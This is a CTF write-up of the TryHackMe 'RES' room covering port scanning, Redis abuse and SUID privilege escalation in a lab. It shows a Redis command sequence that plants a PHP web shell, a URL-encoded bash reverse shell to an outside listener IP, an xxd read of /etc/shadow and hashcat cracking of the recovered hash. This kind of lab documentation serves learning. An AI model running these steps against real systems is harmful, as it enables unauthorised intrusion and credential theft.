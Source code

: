 ```yaml
---
layout: post
title: "THM - RES room"
date: 2025-07-17 00:00:00 +0100
categories: [tryhackme, hacking, linux]
tags: [labs, redis, suid, xxd, privilege escalation, rce, ctf, hash cracking, hashcat]
---
```


![res](pics/res.png)

### Intro

Today I pwnd a RES room (https://tryhackme.com/room/res) from **TryHackMe**!
This one featured a misconfigured Redis service that opened the door to initial access, and a bit of fun with SUID binaries for privilege escalation. Definitely a good mix of enumeration and exploitation!

### Enumeration

- Starting with **nmap**:

```bash
$ nmap -sC -sV -vv -p- 10.10.100.10 -oA nmap_res.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-16 17:18 CEST
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:18
Completed NSE at 17:18, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:18
Completed NSE at 17:18, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:18
Completed NSE at 17:18, 0.00s elapsed
Initiating Ping Scan at 17:18
Scanning 10.10.100.10 [4 ports]
Completed Ping Scan at 17:18, 0.10s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:18
Completed Parallel DNS resolution of 1 host. at 17:18, 0.04s elapsed
Initiating SYN Stealth Scan at 17:18
Scanning 10.10.100.10 [65535 ports]
Discovered open port 80/tcp on 10.10.100.10
Stats: 0:00:19 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 12.47% done; ETC: 17:21 (0:02:13 remaining)
Discovered open port 6379/tcp on 10.10.100.10
SYN Stealth Scan Timing: About 39.83% done; ETC: 17:20 (0:01:14 remaining)
SYN Stealth Scan Timing: About 59.93% done; ETC: 17:20 (0:00:53 remaining)
Completed SYN Stealth Scan at 17:20, 145.84s elapsed (65535 total ports)
Initiating Service scan at 17:20
Scanning 2 services on 10.10.100.10
Completed Service scan at 17:21, 6.56s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.100.10.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 2.10s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.34s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.02s elapsed
Nmap scan report for 10.10.100.10
Host is up, received echo-reply ttl 63 (0.080s latency).
Scanned at 2025-07-16 17:18:32 CEST for 155s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
6***/tcp open  redis   syn-ack ttl 63 Redis key-value store *.*.*

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.04s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.02s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 156.29 seconds
           Raw packets sent: 67965 (2.990MB) | Rcvd: 67345 (2.695MB)
```

- And we got 2 ports opened, one of which - Redis

### Exploitation/Post exploitation

- After some googling I found that this Redis version is vulnerable for file uploading/RCE, so let's use it:

```bash
$ redis-cli -h 10.10.100.10
10.10.100.10:6379> SET x "<?php system($_GET['cmd']); ?>"
OK
10.10.100.10:6379> config set dbfilename shell.php
OK
10.10.100.10:6379> config set dir /var/www/html
OK
10.10.100.10:6379> save
OK
```

- Starting listener:

```bash
nc -lvnp 1337
```

- Start the shell in the browser (don't forget to URL encode it before) `https://10.10.100.10/shell.php?cmd=%2fbin%2fbash%20-c%20%27bash%20-i%20%3E%26%20%2fdev%2ftcp%2f10.11.12.13%2f1337%200%3E%261%27`

- And we get a shell!
- Upgrade/stabilize shell (`https://2br007.github.io/posts/mrrobot/#shell-stabilization`)
- User flag was easy to find and read, so there will be no problem but next one was more interesting since we need to get a user password ...
- As always I downloaded `Linpeas.sh` to `/tmp`
- I checked for files I could run with sudo `sudo -l`
- Looked for SUID files `find / -type f -perm -4000 2>/dev/null`
- There was interesting one: `XXD` (more info here -> *https://gtfobins.github.io/gtfobins/xxd/#file-read*)
- So let's check a `/etc/shadow`:

```bash
www-data@ubuntu:/tmp$ LFILE=/etc/shadow
www-data@ubuntu:/tmp$ xxd "$LFILE" | xxd -r
```

- We got a password hash! Let's crack it:

```bash
$ echo '$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CW...Xwvri0' > hash
$ hashcat -m 1800 -a 0 hash /usr/share/wordlists/rockyou.txt

hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: ****

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Uses-64-Bit

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 3 secs

$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CW...Xwvri0:******ful*

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: $6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CW...Xwvri0
Time.Started.....: Thu Jul 17 13:07:53 2025 (3 secs)
Time.Estimated...: Thu Jul 17 13:07:56 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      338 H/s (10.30ms) @ Accel:48 Loops:512 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1152/14344385 (0.01%)
Rejected.........: 0/1152 (0.00%)
Restore.Point....: 1104/14344385 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4608-5000
Candidate.Engine.: Device Generator
Candidates.#1....: sexy123 -> summer1
Hardware.Mon.#1..: Util: 97%

```

- Yeap, rockyou will be enough to crack it
- Root flag will be easy to get since we could abuse XXD ...
- That's all folks!